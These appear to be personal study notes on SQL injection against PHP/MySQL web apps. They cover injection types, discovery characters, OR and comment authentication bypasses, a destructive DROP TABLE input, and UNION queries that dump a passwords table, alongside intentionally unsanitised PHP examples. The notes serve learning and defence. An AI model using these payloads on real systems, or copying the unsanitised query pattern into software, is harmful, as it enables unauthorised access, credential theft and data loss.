

- [SQL Injection (SQLi)](#sql-injection-sqli)
  - [Use of SQL in Web Apps](#use-of-sql-in-web-apps)
  - [SQLi](#sqli)
  - [Syntax Errors](#syntax-errors)
  - [Types of SQLi](#types-of-sqli)
  - [Subverting Query Logic](#subverting-query-logic)
    - [Authentication Bypass](#authentication-bypass)
    - [SQLi Discovery](#sqli-discovery)
    - [OR Injection](#or-injection)
    - [Auth Bypass with OR Operator](#auth-bypass-with-or-operator)
  - [Using comments](#using-comments)
    - [Auth Bypass with comments](#auth-bypass-with-comments)
      - [Paranthesis](#paranthesis)
  - [UNION Clause](#union-clause)
    - [Even columns](#even-columns)
    - [Uneven Columns](#uneven-columns)
  - [UNION Injection](#union-injection)
    - [Detect number of columns](#detect-number-of-columns)
      - [Using ORDER BY](#using-order-by)
    - [Using UNION](#using-union)

---

# SQL Injection (SQLi)

... refers to attacks against relational databases such as MySQL. An SQLi occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

## Use of SQL in Web Apps

Once a DBMS is installed and set up on the back-end server and is up running, the web app can start utilizing it to store and retrieve data.

For example, within a PHP web app, you can connect to your database, and start using the MySQL database through MySQL syntax, right within PHP. You can then print it to the page or use it in any other way.

```php
$conn = new mysqli("localhost", "root", "password", "users");
$query = "select * from logins";
$result = $conn->query($query);

while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
} // prints all returned results of the SQL query in new lines

```

Web apps also usually use user-input when retrieving data. For example, when a user uses the search function to search for other users, their search input is passed to the web app, which uses the input to search within the database.

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

## SQLi

... occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

No input sanitization example:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

In this case you can add a single quote ```'```, which will end the user-input field, and after it, we can write actual SQL code. If you search for ```1'; DROP TABLE users;```, the search input would be:

```sql
select * from logins where username like '%1'; DROP TABLE users;'
```

Once the query is run, the table will get deleted.

## Syntax Errors

The previous example of SQLi would return an error.

```php
Error: near line 1: near "'": syntax error
```

This is because of the last trailing character, where you have a single quote that is not closed, which causes a SQL syntax error when executed. In this case, you had only one trailing character, as your input from the search query was near the end of the SQL query. However, the user input usually goes in the middle of the SQL query, and the rest of the original SQL query comes after it.

To have a successful injection, you must ensure that the newly modified SQL query is still valid and does not have any syntax errors after your injection.

One answer to that problem is using **comments**. Another is to make the query syntax work by passing in multiple single quotes.

## Types of SQLi



- **In-Band** (_the output of both the intended and the new query may be printed directly on the front end_)
  - **Union Based** (_you may have to specify the exact location, so the query will direct the output to be printed there_)
  - **Error Based** (_is used when you can get the PHP or SQL erros in the front-end, so that you may intentionally cause an SQL error that returns the output of your query_)
- **Blind** (_you may not get the output printed, so you may utilize SQL logic to retrieve the output character by character_)
  - **Booleand Based** (_you can use SQL conditional statements to control whether the page returns any output at all if your condition statements returns 'true'_)
  - **Time Based** (_you use SQL conditional statements that delay the page response if the conditional statement returns 'true' using the 'Sleep()' function_)
- **Out-of-Band** (_you may not have direct access to the output whatsoever, so you may have to direct the output to a remote location, and then attempt to retrieve it from there_)

## Subverting Query Logic

### Authentication Bypass


You can log in with the admin creds ```admin:p@ssw0rd```.


The current SQL query being executed:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

The page takes in the credentials, then uses the AND operator to select records matching the given username and password. If the MySQL database returns matched records, the credentials are valid, so the PHP code would evaluate the login attempt condition as 'true'. If the condition evaluates to 'true', the admin record is returned. and your login is validated.

Example with wrong creds:


### SQLi Discovery

Before you start subverting the web app's logic and attempting to bypass the authentication, you first have to test whether the login form is vulnerable to SQLi. To do that, you can try to add one of the below payloads after your username and see if it causes any errors or changes how the page behaves:

| Payload | URL Encoded |
| ------- | ----------- |
| ```'``` | %27 |
| ```"``` | %22 |
| ```#``` | %23 |
| ```;``` | %3B |
| ```)``` | %29 |

Example for ```'```:


The quote you entered resulted in an odd number of quotes, causing a syntax error. One option would be to comment out the rest of the query and write the remainder of the query as part of your injection to form a workin query. Another option is to use an even number of quotes within your injected query, such that the final query would still work.

### OR Injection

You would need the query always to return true, regardless of the username and password entered, to bypass the authentication. To do this, you can abuse the OR operator in your SQLi.

An example of a condition that will always turn true is '1'='1'. However, to keep the SQL query working and keep an even number of quotes, you have to remove the last quote, so the remaining single quote from the original query would be in its place.

```sql
admin' or '1'='1
```

Inside the final query, it would look like:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

The AND operator will be evaluated first, and it will return false. Then, the OR operator would be eveluated, and if either of the statements is true, it would return true. Since 1=1 always returns true, this query will return true, and it will grant us access.

### Auth Bypass with OR Operator


You were able to log in successfully as admin. However, the login fails when using 'notAdmin' as a user, since that user does not exist in the table and therefore resulted in a fals query overall.

To successfully login once again, you will need an overall true query. This can be achieved by injecting an OR condition into the password field, so it will always return true.


The additional OR condition resulted in a true query overall, as the WHERE clause returns everything in the table, and the user present in the first row is logged in. In this case, as both conditions will return true, you do not have to provide a test username and password and can directly start with ```'``` injection and log in with just ```' or '1'='1```.

## Using comments


Just like any other language, SQL allows the use of comments as well. Comments are used to document queries or ignore a certain part of the query. You can use two types of line comments with MySQL ```--``` and ```#```, in addition to an in-line comment ```/**/```.

```bash
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> In SQL, using two dashes is not enough to start a comment. There has to be an empty space after them, so the comment starts with '-- '. This is sometimes URL encoded as '--+', as spaces in URLs are encoded as '+'.

```#``` example:

```bash
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```

### Auth Bypass with comments

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

You can see from the syntax highlighting, the username is now admin, and the remainder of the query is now ignored as a comment.


#### Paranthesis

SQL supports the usage of pranthesis if the application needs to check for particular conditions before others. Expressions within the paranthesis take precedence over other operators and evaluated first.


The login failed due to a syntax error, as a closed one did not balance the open paranthesis. To execute the query successfully, you will have to add a closing paranthesis.


The query was successful, and you logged in as admin. The final query as a result of the input is:

```sql
SELECT * FROM logins where (username='admin')
```

## UNION Clause

... is used to combine results from multiple SELECT statements. This means that through a UNION injection, you will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases.

```bash
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> The data types of the selected columns on all positions should be the same

### Even columns

A UNION statement can only operate on SELECT statements with an equal number of columns. Otherwise:

```bash
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

The above query results in an error, as the first SELECT returns one column and the second SELECT returns two.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return ```username``` and ```password``` entries from the ```passwords``` table, assuming the ```products``` table has two columns.

### Uneven Columns

You will find out that the original query will usually not have the same number of columns as the SQL query you want to execute, so you will have to work around that. You can put junk data for the remaining required columns so that the total number of columns you are UNIONing with the remains the same as the original query.

> [!NOTE]
> When filling other columns with junk data, you must ensure that the data type matches the columns data type, otherwise the query will reutrn an error.

> [!TIP]
> For advanced SQLi, you may want to use 'NULL' to fill other columns, as 'NULL' fits all data types.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If you had more columns in the table of the original query, you have to add more numbers to create the remaining required columns.

```sql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

## UNION Injection

### Detect number of columns

#### Using ORDER BY

You have to inject a query that sorts the results by a column you specified until you get an error saying the column specified does not exist.

For example, you can start with ```order by 1```, sort by the first column, and succeed, as the table must have at least one column. Then you will do ```order by 2``` and then ```order by 3``` until you reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column you successfully sorted gives you the total number of columns.

### Using UNION

